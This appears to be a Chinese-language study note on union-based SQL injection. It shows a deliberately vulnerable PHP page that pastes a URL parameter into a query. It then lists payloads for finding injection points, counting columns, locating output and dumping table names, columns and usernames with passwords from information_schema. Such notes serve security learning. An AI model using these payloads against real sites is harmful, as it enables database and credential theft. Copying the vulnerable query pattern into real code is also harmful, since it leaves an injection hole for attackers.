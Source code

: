 # 代码分析

```
<?php
$con = mysqli_connect("localhost", "root", "root", "test");
if (mysqli_connect_errno()){
    echo "连接失败" . mysqli_connect_errno();
}
$id = $_GET['id'];
$result = mysqli_query($con, "select * from users where 'id' = " . $id);
$row = mysqli_fetch_array($result);
echo $row['username'] . ":" . $row['passwd'];
echo "<br>"
?>
```

当访问id = 1 union select 1, 2, 3时，执行的SQL语句是 ==select * from users where 'id' = 1== 和 ==union select 1, 2, 3== 两条SQL语句

# 基本流程

- 你原有的代码想要篡改掉显示你想要的一个数据

1. 是否存在注入点

   ```
   ' -- qwe
   " -- qwe
   ') -- qwe
   ") -- qwe
   利用 and 1=1  和  and 1=2  来查看报错显示
   or sleep(n)(延时)
   ```

2. 猜字段名

   ```mysql
   ?id=1 ' union select order by n -- 123
   ```

3. 寻找输出点

   ```mysql
   ?id=1 ' union select 1,2,3,4,5 -- 123
   ```

4. 查询数据库、数据表、数据

   ```mysql
   ?id=1 ' union select database(),user() -- 123
   ?id=1 ' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() -- 123
   ?id=1 ' union select 1,group_concat(column_name) from information_schema.columns where table_name='表名' -- 123
   ?id=1 ' union select 1,group_concat(username,password) from amdin #
   ```

# 特殊情况

1. 存在注入点但是输出点的语句无法执行？

   > 可能是因为只执行了前面的语句，想办法让前面的语句报错，例如：==?id=1.1 'union select 1,2 -- 123或者?id=1 ' and 1=2 union select 1,2 -- 123==+
